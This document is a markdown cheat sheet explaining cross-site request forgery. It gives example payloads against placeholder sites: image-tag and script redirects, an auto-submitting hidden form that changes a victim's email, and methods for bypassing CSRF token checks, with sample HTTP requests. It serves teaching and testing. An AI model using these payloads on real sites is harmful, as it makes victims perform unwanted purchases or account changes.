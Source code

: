# CSRF (Cross-site request forgery)

Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. It allows an attacker to partly circumvent the same origin policy, which is designed to prevent different websites from interfering with each other.

### Table of content

- [How does it work ?](#how-does-it-work)
- [Get method](#get-method)
- [Post method](#post-method)
- [bypass CSRF token validation](#bypassing-csrf-token-validation)
    - [Validation of CSRF token depends on request method](#validation-of-csrf-token-depends-on-request-method)
    - [Validation of CSRF token depends on token being present](#validation-of-csrf-token-depends-on-token-being-present)
    - [CSRF token is not tied to the user session](#csrf-token-is-not-tied-to-the-user-session)
    - [CSRF token is tied to a non-session cookie](#csrf-token-is-tied-to-a-non-session-cookie)
    - [CSRF token is simply duplicated in a cookie](#csrf-token-is-simply-duplicated-in-a-cookie)

## How does it work ? 

Imagine that you've just opened a fraudulent link. A normal image could be `<img src="https://normal/img/dog">`, and the web browser would resolve the link and display the image.

Now, imagine that the image link is: `<img src="http://www.shopping-online.com/Index?buy=tv&nb=100&confirm=1">`.

In fact, thanks to CSRF, the hacker will attempt to use the connection cookies stored on your computer to make you perform unwanted actions behind your back. Here, they are trying to make you buy 100 TVs on the website http://www.shopping-online.com.

## Get Method

Get Method are easier to resolve and more predectible.

```html
<img src="http://www.shopping-online.com/Index?buy=tv&nb=100&confirm=1">
```

or:

```html
<script>
    location = "http://www.shopping-online.com/Index?buy=tv&nb=100&confirm=1";
</script>
```

## Post Method

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

## Bypassing CSRF token validation

A CSRF token is a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client. When issuing a request to perform a sensitive action, such as submitting a form, the client must include the correct CSRF token. Otherwise, the server will refuse to perform the requested action.

ex:

```html
<form name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="example@normal-website.com">
    <input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u">
    <button class='button' type='submit'> Update email </button>
</form>
```

### Validation of CSRF token depends on request method

Some applications correctly validate the token when the request uses the POST method but skip the validation when the GET method is used.

If the form use post method to transmit values, try give them with the GET method.

### Validation of CSRF token depends on token being present

Some applications correctly validate the token when it is present but skip the validation if the token is omitted.

### CSRF token is not tied to the user session

Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.

You can connect yourself and try your token to feed the victim's token.

### CSRF token is tied to a non-session cookie

In a variation on the preceding vulnerability, some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions. This can easily occur when an application employs two different frameworks, one for session handling and one for CSRF protection, which are not integrated together:

```html
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```

If the web site contains any behavior that allows an attacker to set a cookie in a victim's browser, then an attack is possible.

### CSRF token is simply duplicated in a cookie

In a further variation on the preceding vulnerability, some applications do not maintain any server-side record of tokens that have been issued, but instead duplicate each token within a cookie and a request parameter. When the subsequent request is validated, the application simply verifies that the token submitted in the request parameter matches the value submitted in the cookie. This is sometimes called the "double submit" defense against CSRF, and is advocated because it is simple to implement and avoids the need for any server-side state:

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```

In this situation, the attacker can again perform a CSRF attack if the web site contains any cookie setting functionality. Here, the attacker doesn't need to obtain a valid token of their own. They simply invent a token (perhaps in the required format, if that is being checked), leverage the cookie-setting behavior to place their cookie into the victim's browser, and feed their token to the victim in their CSRF attack.

---

[**:arrow_right_hook: Back home**](/README.md)
